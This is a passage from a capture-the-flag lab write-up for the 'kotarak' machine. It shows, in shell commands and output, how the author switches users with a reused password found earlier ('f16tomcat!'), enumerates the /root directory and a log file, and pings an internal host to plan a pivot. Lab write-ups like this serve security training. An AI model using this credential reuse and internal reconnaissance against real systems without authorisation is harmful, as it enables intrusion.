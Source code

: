 Instead, I tried `su` from `tomcat`'s reverse shell, and the password `f16tomcat!` worked!

```bash
tomcat@kotarak-dmz:/$ su atanas -
su atanas -
Password: Password123!

su: Authentication failure
tomcat@kotarak-dmz:/$ su atanas -
su atanas -
Password: f16tomcat!

bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
atanas@kotarak-dmz:/$ 
```



# Shell as `root`

### Enumeration

```bash
atanas@kotarak-dmz:/root$ ls
ls
app.log  flag.txt
atanas@kotarak-dmz:/root$ cat flag.txt
cat flag.txt
Getting closer! But what you are looking for can't be found here.
atanas@kotarak-dmz:/root$ cat app.log
cat app.log
10.0.3.133 - - [20/Jul/2017:22:48:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:50:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:52:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
```

On `/root` directory, there's a fake flag, and `app.log`.
Given the `flag.txt` message, it seems that there must be another place that stores flag.

Also, `app.log` shows a trace that there has been connections to `10.0.3.133` which is not the current host.
Let's check if the host is still alive.

```bash
atanas@kotarak-dmz:/root$ hostname -I
hostname -I
10.10.10.55 10.0.3.1 
atanas@kotarak-dmz:/root$ ping -c 2 10.0.3.133
ping -c 2 10.0.3.133
PING 10.0.3.133 (10.0.3.133) 56(84) bytes of data.
64 bytes from 10.0.3.133: icmp_seq=1 ttl=64 time=0.039 ms
64 bytes from 10.0.3.133: icmp_seq=2 ttl=64 time=0.046 ms

--- 10.0.3.133 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 999ms
rtt min/avg/max/mdev = 0.039/0.042/0.046/0.007 ms
```
